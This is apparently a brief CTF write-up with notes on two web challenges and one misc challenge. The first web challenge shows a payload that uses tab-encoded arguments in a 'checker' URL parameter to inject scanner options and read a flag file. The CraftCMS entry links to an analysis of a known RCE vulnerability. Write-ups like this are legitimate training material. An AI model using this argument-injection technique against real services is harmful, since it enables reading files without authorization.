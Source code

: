## Web
### MyGO's Live!!!!!

```shell
checker?url=%09-iL%09/flag-d5b6d51594b888dd%09-o%09/dev/stdout
```

### craftcms
P神的知识星球有提到过

[CVE-2023-41892 CraftCMS远程代码执行漏洞分析 | Bmth's blog (bmth666.cn)](http://www.bmth666.cn/2023/09/26/CVE-2023-41892-CraftCMS%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8)

## Misc
### SIGNIN: 东方原神大学
被做了重定向，wget一下就行了

![](attachments/Pasted%20image%2020231103085217.png)
